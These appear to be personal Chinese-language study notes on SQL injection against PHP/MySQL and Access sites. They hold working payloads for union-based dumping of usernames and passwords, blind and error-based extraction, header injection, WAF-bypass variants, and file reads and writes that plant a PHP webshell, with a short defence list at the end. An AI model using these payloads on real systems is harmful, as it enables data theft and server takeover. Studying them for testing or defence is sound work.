 # 原理
PHP是解释型语言，边编译边执行，因为用户输入了恶意构造的输入拼接到SQL语句中，执行了恶意输入
步骤：
探测注入点和闭合符号：数字运算、单引号、双引号、括号、反斜杠、
判断注入类型（int、char）
判断注入类型（报错、盲注）
orderby 判断字段数和显示位置（报错注入）
	union 联合查询 select 1 ，group_concat(table_name),3 from information_schema.tables where table_schema = database() --+ 
	union 联合查询 select 1 ，group_concat(column_name),3 from information_schema.columns where table_name = 'users' --+ 
	0' union select 1 ,group_concat(username,0x3a,password),3 from user--+
	（盲注）(先猜解长度再猜解字符)（轮询）
	select length(database());
	select substr(database),1,1);
	select ascii(substr(databse(),1,1))
	select ascii(substr(databse(),1,1))>N

# 分类

<u>int型</u>

<u>char型</u>

<u>get</u>

<u>post</u>->表单数据提交、文件上传

​	报错注入：登陆口令

​	时间注入：and if (length(database()>5),sleep(5),null)

​	boolean注入：and (length(database()>1)

<u>header</u>

​	*Cookie:(因为常用来验证用户操作而传入后台，是head头中的注入重点，base64编码)

 	referer:'or (length(database()))>8 or if(1=1,sleep(5),null) or  '1'='1'

​	User-Agent:'updatexml(xml_document,xpath_string_new_value)->(XML文档名称,xpath字符串,替换查找到的符合条件的数据)

​						'AND updatexml(1,concat(0x7e,(select databases()),0x7e),1) or '1'='1'

​		IP

blind:sql语句查询到时正常返回页面、查询不到时返回空
	boolean:if判断+注入Ture返回正常，false返回报错not页面
		select length(database());
		

	time:' and if(ascii(substr(database(),m,n)==115,1,sleep(time))) -- 当第m个字符的第n个字母的ascii码等于115时睡眠time秒

mysql（关系型数据库）
	mysql5.0+
		information_shcema
			schemata
				schema_name
			tables
				table_schema
				table_name
			columns
				table_schema
				table_name
				column_name
	基本语法：
		select
		insert into
		update
		delete
		user()
		database()
		version()
		order by
		union select
		limit
		select load_file("path")
		select into outfile 'E:\\PATH\\www\\'

updataxml->updatexml(1,concat(0x7e,(select database()),0x7e),1)

extractvalue->extractvalue(1,concat(0x7e,database(),0x7e))

注释：#，-- ，--+，

​		多行注释 /**/

​      内联注释/*！SQL语句*/常用来绕过WAF 

<u>asp+access </u>    aceess偏移注入

​	原理：利用数据库的自连接查询让数据库内部发生乱序，从而偏移出所需要的字段显示在面上，不能100%成功

场景：知道Access数据库中的表明，但是得不到字段的sql注入（字段取名复杂，无法暴力破解）

流程：1.判断字段数（order by）  2.判断表明union select * from   开始偏移注入

# bapass

大小写绕过->关键字匹配

内插注释过滤(an/**/d)->关键字匹配 

等价替换过滤&&=and,||=or->or and 关键字匹配

双写绕过->关键字替换为空

编码绕过

内联注释绕过->内联注释中的内容会被当中SQL语句执行

半闭合绕过->过滤了闭合字符串的

编码绕过->过滤了空格的规则

| %0a  | 换行       |
| ---- | ---------- |
| %0b  | 垂直制表符 |
| %0c  | 换页       |
| %0d  | return     |
| %09  | 水平制表符 |

-1’%09nuIOn%09sEleCt%091,2,3%09or '1->剔除了union select字符和空格

宽字节绕过:吃掉转义符\ (用转义符转移我们闭合查询的单引号‘)使用Ascii大于128




# 漏洞利用

mysql注入读写文件

	前提：1.用户权限足够高  
	
		2.secure_file_priy != NULL
		3.知道绝对路径

mysql注入读文件：select load_file("E:\\PATH")
		mysql注入写文件：union select 1,'<?php phpinfo();?>','3' into outfile 'E:\\PATH\\www\\'

写入webshell

# 防范措施

字符过滤：stripslasshes() get_magic_quoto_gpc() mysql_real_escape_string()

正则搜索替换：preg_replace(mixed $pattern,mixed $replacement,mixed $subject)(搜索模式，用于替换的字符串，被替换的字符串)